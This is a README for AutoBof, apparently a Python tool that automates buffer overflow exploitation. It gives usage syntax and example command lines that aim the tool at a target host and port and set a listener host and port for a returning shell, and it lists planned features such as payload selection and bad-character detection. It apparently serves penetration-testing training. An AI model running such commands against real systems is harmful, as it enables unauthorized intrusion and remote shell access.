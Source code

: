 # AutoBof

### A tool for automating buffer overflow exploitation.

##### Usage:
  ```
  kali@kali:~$ python3 autobof.py --rhost RHOST --rport RPORT --prefix PREFIX --suffix SUFFIX --lhost LHOST --lport LPORT
     -h, --help       show this help message and exit
     --rhost RHOST    target ip address  ------------- [required]
     --rport RPORT    target port -------------------- [required]
     --prefix PREFIX  string prefix ------------------ [optional; default: ""]
     --suffix SUFFIX  string suffix ------------------ [optional; default: ""]
     --lhost LHOST    listening ip address ----------- [optional; default: tun0]
     --lport LPORT    listening port ----------------- [optional; default: 443]

  ```
##### Examples:
  ```
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 12345 --prefix "hello" --lhost eth0
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 777 --suffix " ending string!" --lport 4444
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 930 --prefix "Username: " --suffix "end" --lhost 192.168.1.10 --lport 1234
  ```


##### Future features:
    * Better selection of payloads.
    * Windows compatibility (msfvenom alternatives).
    * Dynamic selection of nops.
    * Dynamic adjustments to send_bytes().
    * Auto detection of register values and possibly badchars for total automation.
    * Auto creation of a poc.py file using variable values assigned.
    * Different modes (beginner/intermediate/advanced) depending on if you want to use the tool as an instructional
      walkthrough to learn bofs or if you just want to just throw it at a target and get a shell.
